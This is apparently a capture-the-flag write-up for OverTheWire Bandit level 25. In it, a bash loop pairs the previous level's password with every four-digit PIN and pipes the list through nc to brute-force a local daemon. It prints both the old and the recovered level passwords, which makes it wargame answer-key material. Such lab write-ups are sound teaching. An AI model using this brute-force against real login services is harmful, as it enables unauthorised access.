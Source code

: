# Bandit level 25

# Objective
Use the password for the last level along with a numeric 4-digit code to get the password for this level from a daemon listening on port 30002

# Solution Steps
1. Log in to Bandit Server using ssh
    ssh bandit24@bandit.labs.overthewire.org -p 2220
2. Checked contents of directory
    ls
3. Found nothing, Ran daemon on port 30002
    nc localhost 30002
4. Prompted password for bandit24 along with 4-digit pin, found format for entering password and pin
    "I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space."
5. Made temp directory for making script and moved to that directory
    mkdir /tmp/script24
    cd /tmp/script24
6. Created shell script using nano
    nano script24.sh
7. Made script that loops through every combination of 0000 - 9999 along with bandit24 password and outputs it into a .txt file in correct format

    #!/bin/bash

    for i in {0..9}{0..9}{0..9}{0..9}
    do
            echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> pincodes.txt;
    done
8. Made script into an executable
    chmod +x script24.sh
9. Ran script
    ./script24.sh
10. Checked contents of directory
    ls
11. Found pincodes.txt file, checked contents of file against daemon using pipeline
    cat pincodes.txt | nc localhost 30002
12. Extracted password from output
    password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4 
13. Removed directory for script
    cd ..
    rm -rf script24

# Learned
How to make a loop inside a shell script and use files in a pipe